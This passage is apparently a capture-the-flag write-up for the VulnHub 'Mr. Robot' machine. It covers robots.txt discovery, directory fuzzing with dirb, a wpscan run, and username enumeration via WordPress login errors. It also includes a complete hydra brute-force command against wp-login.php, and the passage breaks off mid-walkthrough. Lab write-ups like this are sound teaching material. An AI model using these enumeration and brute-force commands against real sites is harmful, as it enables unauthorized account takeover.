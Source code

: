 The web server at `80` and `443` shows the official Mr. Robot promotional website. As it's pretty big and seems pretty much the same as the real thing, we keep searching for the moment. 

Let's try `/robots.txt`.

```
User-agent: *
fsocity.dic
key-1-of-3.txt
```
Oh, that seems interesting. We can proceed to obtain our first flag:

```
wget http://192.168.56.103/fsocity.dic -o fsocity.dic
wget http://192.168.56.103/key-1-of-3.txt -o key-1-of-3.txt
```

OK, great, but what now? Since exploring the web server manually seems like a bit of a pain, we can try with a fuzzer and cross our fingers:

```
root@kali:~/vulnhub/mr_robot# dirb http://192.168.56.103
```

This reveals a /0/ directory, which is a wonderful WordPress! Time to run `wpscan`:

```
root@kali:~# wpscan -u http://192.168.56.103/0/
```

It only finds two XSS vulnerabilities which won't help us to get in...

Meanwhile, our fuzzer, which is still running, finds a nice login page at `/wp-login`.

After some basic tries (`admin/admin`, `user/user`, etc), a somewhat strange error message appears when trying the user `elliot` (obvious choice given the VM theme):

```
ERROR: The password you entered for the username elliot is incorrect. Lost your password?
```

Easy user enumeration, indeed! ;-) But we got our user, and we got a dictionary. Time to wake the Hydra.

```
hydra -l elliot -P fsocity.dic 192.168.56.103 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&testcookie=1:ERROR:H=Cookie\: s_cc=true; s_fid=648F0BAE8E7E6EDD-276B7EA6AFF87532; s_nr=1469962865654; s_sq=%5B%5BB%5D%5D; wordpress_test_cookie=WP+Cookie+check"
```

So we got our fuzzer and our hydra running... What else can we do?

Peeking on some of the `dirb` results, we find this `license` page, which says:

```
what you do just pull code from Rapid9 or some s@#% since when did you become a script kitty?
```

At this point, this seems just a taunt so we could pretty much ignore it for the moment (after acknowledging, of course, that it's a quote from Mr. Robot). But as `hydra` is taking forever and we can't find much more interesting things in the `dirb` results, we have no choice but to come back and give a second look. And, oh surprise, it tourns out we hadn't scrolled down in the page... There's more text in there:
